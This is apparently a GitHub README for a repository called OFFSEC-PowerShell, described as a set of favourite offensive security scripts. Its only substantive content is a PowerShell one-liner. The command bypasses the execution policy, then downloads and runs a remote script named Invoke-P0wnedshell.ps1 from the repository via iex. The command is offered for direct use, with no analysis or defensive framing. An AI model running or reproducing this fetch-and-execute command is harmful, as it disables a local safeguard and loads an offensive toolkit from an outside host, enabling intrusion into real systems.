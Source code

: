 # OFFSEC-PowerShell
My Favorite Offensive Security Scripts

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/OFFSEC-PowerShell/main/Invoke-P0wnedshell.ps1'))
